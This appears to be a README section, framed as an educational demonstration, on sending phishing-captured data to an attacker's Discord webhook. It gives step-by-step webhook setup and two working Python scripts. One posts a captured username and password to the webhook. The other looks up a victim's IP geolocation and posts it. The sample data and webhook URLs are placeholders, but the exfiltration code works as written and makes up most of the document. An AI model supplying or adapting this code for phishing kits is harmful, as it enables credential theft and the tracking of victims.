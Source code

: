 ## 📬 Webhook Demo: Sending to Discord

Discord webhooks can be used to simulate how data from a phishing attack might be sent to an attacker’s Discord channel. Discord allows webhook URLs for custom integrations, making it a great tool for educational demonstrations.

---

### **Step 1: Set Up a Discord Webhook**

1. Create a Discord server if you don’t already have one.
2. Navigate to the desired channel and click:
   - **Edit Channel > Integrations > Webhooks.**
3. Click **"New Webhook"** to create a webhook.
4. Customize the webhook (name, avatar, etc.) if desired.
5. Copy the **webhook URL**, which will be used to send data.

---

### **Step 2: Send Data to the Webhook**

Below is a Python script that sends sample data to your Discord webhook.

```python
import requests

# Replace with your Discord webhook URL
webhook_url = "https://discord.com/api/webhooks/your_webhook_id/your_webhook_token"

data = {
    "content": "🔒 **New Login Attempt Captured**",
    "embeds": [
        {
            "title": "Login Details",
            "fields": [
                {"name": "Username", "value": "test_user", "inline": True},
                {"name": "Password", "value": "password123", "inline": True},
            ],
            "color": 16711680  # Red color
        }
    ]
}

# Send data to the Discord webhook
response = requests.post(webhook_url, json=data)

if response.status_code == 204:
    print("Data sent to Discord successfully!")
else:
    print(f"Failed to send data: {response.status_code}")
```
### 3. View the Results: 

Check the Discord channel where you set up the webhook. You should see a message with the fake login data.

![Result Image](result.PNG)

### 4. Simulating Advanced Webhook Attacks

Webhook with Geolocation

Capture the victim’s IP address and location data using a geolocation API.

```python
import requests

# Replace with your webhook URL
webhook_url = "https://discord.com/api/webhooks/your_webhook_id/your_webhook_token"

# Simulated victim data
ip_address = "8.8.8.8"
location_data = requests.get(f"https://ipapi.co/{ip_address}/json/").json()

data = {
    "content": "🌍 **New Victim Geolocation Captured**",
    "embeds": [
        {
            "title": "Victim Details",
            "fields": [
                {"name": "IP Address", "value": ip_address, "inline": True},
                {"name": "City", "value": location_data['city'], "inline": True},
                {"name": "Country", "value": location_data['country_name'], "inline": True},
            ],
            "color": 65280  # Green color
        }
    ]
}

response = requests.post(webhook_url, json=data)

if response.status_code == 204:
    print("Geolocation data sent to Discord!")
else:
    print(f"Failed to send data: {response.status_code}")
```
